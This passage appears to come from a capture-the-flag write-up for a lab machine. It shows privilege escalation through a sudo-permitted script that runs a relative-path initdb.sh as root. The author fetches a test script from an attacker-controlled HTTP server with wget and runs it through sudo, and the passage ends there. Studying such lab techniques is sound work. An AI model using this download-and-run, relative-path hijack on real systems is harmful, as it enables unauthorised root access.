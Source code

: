 ```bash
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.04, 0.02
Database service is not running. Starting it...
```

Running through the script we can see a file **initdb.sh** referenced in the same directory as it's being ran, and if we run the script we see it does pass through that if statement and supposedly run that bash script (designated by the **Database service is not running. Starting it...** line). I will do my classic test of placing whoami inside of a bash script to ensure I know who runs **initdb.sh** and test for arbitrary code execution. It is most certainly root but it's a habit that grabs more info through a test.

```bash
cat initdb.sh 

#!/bin/bash
whoami >> whoami
```

```bash
httpserver 

Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.11.8 - - [29/Mar/2024 01:05:47] "GET /initdb.sh HTTP/1.1" 200 -
```

***Future note**: I have no idea why I didn't just write the script on the machine and run it.*

```bash
vir@headless:~$ wget http://10.10.14.5:8081/initdb.sh
wget http://10.10.14.5:8081/initdb.sh
--2024-03-29 09:26:37--  http://10.10.14.5:8081/initdb.sh
Connecting to 10.10.14.5:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 29 [text/x-sh]
Saving to: ‘initdb.sh’

     0K                                                       100% 2.04M=0s

2024-03-29 09:26:37 (2.04 MB/s) - ‘initdb.sh’ saved [29/29]

dvir@headless:~$ ls
ls
app
geckodriver.log
initdb.sh
user.txt
dvir@headless:~$ chmod +x initdb.sh
chmod +x initdb.sh
dvir@headless:~$ sudo /usr/bin/syscheck
sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
```